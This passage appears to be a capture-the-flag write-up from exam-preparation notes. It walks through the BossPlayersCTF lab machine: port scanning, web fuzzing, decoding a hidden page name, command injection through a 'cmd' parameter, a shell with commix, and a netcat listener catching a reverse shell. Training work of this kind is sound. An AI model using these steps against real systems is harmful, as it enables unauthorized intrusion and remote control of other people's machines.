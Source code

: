 So hold on tight, we're starting. This is 18 February, so we have time till 18 May to finish this all and passing the exam.

Let's track it done, this post agenda are:
- [5 points box methodology](#5-points-box-methodology)
- [8 points box methodology](#8-points-box-methodology)
- [10 points box methodology](#10-points-box-methodology)
- [20 points box methodology](#20-points-box-methodology)
- [25 points box methodology](#25-points-box-methodology)

## 5 points box methodology

For boxs that have only 5 points, I have done more then 40 boxs, so first we need to develop the table methodology for that case of easy machines. Let's look on 5 machines that are easy for hack for just 5 points.

### BossPlayersCTF

1. Enumeration: run scanner to find open ports, like rustscan and found port 20 and 80 are opened, run nmap to find which service have some vulnerability, but found nothing so go against the web.

2. Web fuzzing: run tool for fuzzing the web like feroxbuster, gobuster, dirsearch, in my case I have used my own tool called webenum with feroxbuster but found nothing interesting, run cewl against the web found weird string, so go to the page and view source code found string in base64, decompress that string give me the following output:
```
└─$ echo "WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK" | base64 -d | base64 -d|base64 -d
workinginprogress.php
```
Since we found another web page, go  against it revealed the developer made some wey to run command base on that php page, adding `?cmd=id` give the output:
```
└─$ curl "http://192.168.xxx.20/workinginprogress.php?cmd=id" | grep uid
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   325  100   325    0     0   2496      0 --:--:-- --:--:-- --:--:--  2500
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

3. Shell Grabbing: since we know that with cmd variable against that php page we can run any command, we can use commix which is the easy way to get shell from provided variable point that allow to execute command, and right away we have a shell:
```
└─$ commix --url "http://192.168.225.20/workinginprogress.php?cmd="
...
commix(os_shell) > id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
commix(os_shell) >
```
Now run nc for get more comfortable shell, then run python for get the spawn of it.
```
└─$ nc -nvlp 80
listening on [any] 80 ...
connect to [192.168.xxx.193] from (UNKNOWN) [192.168.xxx.20] 58134
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@bossplayers:/var/www/html$
```

